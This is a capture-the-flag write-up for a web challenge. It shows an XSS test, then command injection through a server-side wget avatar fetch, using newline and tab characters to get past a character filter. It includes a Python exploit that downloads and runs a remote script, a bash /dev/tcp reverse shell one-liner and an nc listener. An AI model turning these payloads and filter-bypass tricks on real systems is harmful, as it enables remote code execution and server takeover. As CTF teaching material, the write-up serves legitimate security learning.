

# web50 - B3tterS0ci4lN3twork
**Description**: You know what to do!

**Hint**: Try to find some known cves)

## Challenge

The target for this challenge is a simple social network site. To interact with the site you need to create an account:


After creating an account and logging in, you are greeted with a profile page where you can edit your password and and set an avatar URL:


It is also possible to to send messages to another user:


And of course you can also view the messages you received:



## Finding the vulnerability

Testing the fields for injection we can quickly find that there is an XSS injection possible when you send messages. For example,
we can send `<script>alert("Get back to work!")</script>` as a message and when we click on "Get Message" we get a nice dialog:


In theory, this should allow us to hijack the session of another user. Unfortunately there does not seem to be any "interesting" user (like an admin) reading these messages,
so this does not lead us any further.

Another thing that is interesting about this site is that when setting the profile picture to an URL, the server first downloads that URL and then links to the fetched image at `/avatars/example.com/profile.png`.
If we set the URL to our own server `mydomain.com/test.png`, we can get the exact request that the server sends to fetch the avatar picture:

```
GET /test.png HTTP/1.1
User-Agent: Wget/1.15 (linux-gnu)
Accept: */*
Host: mydomain.com
Connection: Keep-Alive
```

Look at the user agent: `Wget`. So the server apparently runs `wget mydomain.com/test.png` (or with quotes around the URL, but as we will see later that is not the case).
Testing a few special characters, we find that the following characters are filtered: ``&, $, ;, space, |, ` `` (they are removed from the URL prior to running wget).
We find that the URL is in fact passed to wget unquoted because if we set the avatar URL to `mydomain.com>`, then we don't get any request at all indicating that the shell hit a syntax error (this would not happen if the argument was quoted).

Turns out that `;` is not the only way to separate multiple commands: you can also use a newline. Also, instead of space we can use a tabulator to separate multiple arguments. Try this:

```
$ python3
>>> import subprocess
>>> subprocess.call(["bash", "-c", "echo URL\necho\tanothercommand"])
URL
anothercommand
0
>>> 
```

Armed with that knowledge, we can run arbitrary commands on the server using `URL<newline>ourcommand<tab>arg1<tab>arg2` as the avatar url, and it will end up getting executed as:

```bash
wget URL
ourcommand arg1 arg2
```

## Exploiting it

Turns out it is a little hard to insert raw tabulators or newlines into a form field with a browser, so we can write a little python script that does the request for us
(we need to copy the `PHPSESSID` of the browser because we need to be logged in for this):

```python
#!/usr/bin/env python2 
import requests
def req(url):
    requests.post("http://tasks.ctf.com.ua:13374/profile.php", data={"avatar_url": url}, cookies={"PHPSESSID": "lovu4fu6cu74qd2sbev6h2hba3"})
   
req("http://mydomain.com\ncurl\thttp://mydomain.com/script>/tmp/script\nbash\t/tmp/script")
```

Before running this script, we make sure to serve a reverse shell at `http://mydomain.com/script` (like `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`, replace "10.0.0.1" with the domain of our server).
Listen on port `8080` on the server for the reverse shell and run the script:

```
$ nc -l -p 8080
rail@4662aa7ff512:/var/www/srv/www$ cat ihsfdhvkeuryhiuverhiuse.php
cat ihsfdhvkeuryhiuverhiuse.php
<?php

$flag="h4ck1t{h4ck1t{wg3t_cv3_1n_CTF}";

?>

```

And we got the flag. Only one question left: what about the hint?
